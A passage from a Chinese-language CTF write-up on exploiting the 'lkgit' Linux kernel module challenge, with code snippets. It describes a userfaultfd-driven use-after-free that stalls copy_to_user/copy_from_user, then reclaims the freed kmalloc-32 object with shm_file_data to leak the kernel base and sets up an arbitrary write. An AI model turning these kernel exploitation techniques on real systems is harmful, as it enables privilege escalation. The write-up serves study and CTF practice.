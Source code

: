 ```c
	return ret;
```
可以看到我们如果在最后一次 copy_to_user 之前 UAF 掉 target, 并且使得其前 0x10 字节里面有一个内核态地址，就可以达到 leak 的目的 ~     
然后一眼看到，第一次 `copy_from_user(hash, req->hash, HASH_SIZE)` 需要拿到 hash 来索引 object, 如果这次 UAF 了可能索引不到，第二次 `copy_to_user(req->content, target->content, FILE_MAXSZ)` 一开始尝试在这里 Userfaultfd, 但是会有问题就是此时 target->content 已经变了，过不了 `memcmp(hash, hash_other, HASH_SIZE) != 0` 的检查    
所以就需要在`copy_to_user(req->message, target->message, MESSAGE_MAXSZ)` 处调用 userfaultfd     
而第二次我们想要一个内核态任意地址写任意值，就考虑用 Userfaultfd 去卡 `lkgit_amend_object` 的 `copy_from_user(buf, reqptr->message, MESSAGE_MAXSZ)`，以下为 `lkgit_amend_object` 的代码 
```c
	long ret = -LKGIT_ERR_OBJECT_NOTFOUND;
	char buf[MESSAGE_MAXSZ];
	log_object req = {0};
	int target_ix;
	hash_object *target;
	if(copy_from_user(&req, reqptr->hash, HASH_SIZE))
		goto end;

	if ((target_ix = find_by_hash(req.hash)) != -1) {
		target = objects[target_ix];
		// save message temporarily
		if (copy_from_user(buf, reqptr->message, MESSAGE_MAXSZ)) // this can do sort of UAF write
			goto end;
		// return old information of object
		ret = lkgit_get_object(reqptr);
		// amend message
		memcpy(target->message, buf, MESSAGE_MAXSZ);
	}

	end:
		return ret;
```
而对于题目中，这种同一个结构体的不同字段的 copy_to_user/copy_from_user，可以把该结构体放到两个相邻的 mmap 出来区域的交界处，并且对后一个区域设置 page_fault 的处理函数，这样就可以使得对某个字段的访问触发该 fault_handler_thread    
代码如下：   
```c
	void* lower_region = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, 0, 0);
    void* higher_region = mmap(lower_region + PAGE_SIZE, PAGE_SIZE, PROT_READ|PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, 0, 0);
    registerUserfault(higher_region,fault_handler_thread);
	// some code...
	memcpy(lower_region + 0xfb0,h1.hash, 0x10);
    memcpy(hash, h1.hash, 0x10);
    get_obj((log_object*)(lower_region + 0xfb0)); // mark 一下在 copy message 处触发
```

## 利用思路
### kernel base leak
我们先用 Userfaultfd 构造 UAF，在调用 copy_to_user/copy_from_user 的时候，会调用我们设定的 fault_handler_thread, 在该函数中，我们可以来一手偷梁换柱，把原先 target 指向的堆块 free 掉，再申请成有特定作用的内核结构体，这样后续 copy_to_user/copy_from_user 就可以被进行该内核结构体的写入或者 leak          
因为是 kmalloc-32 所以只有 seq_operations 和 shm_file_data 可选，应该都可以 leak 成，我们这里用的 shm_file_data 来打    
直接参考其他博客的板子，申请出来的 0x20 大小堆块偏移 0x8 的位置是一个和内核基地址偏移固定的地址，从而在 `copy_to_user(req->hash, target->hash, HASH_SIZE)` 时实现 leak    
```c
// use shmem to occupy the freed space
int shmid;
if ((shmid = shmget(IPC_PRIVATE, 100, 0600)) == -1) {
	perror("shmget");
	return 1;
}
char *shmaddr = shmat(shmid, NULL, 0);
```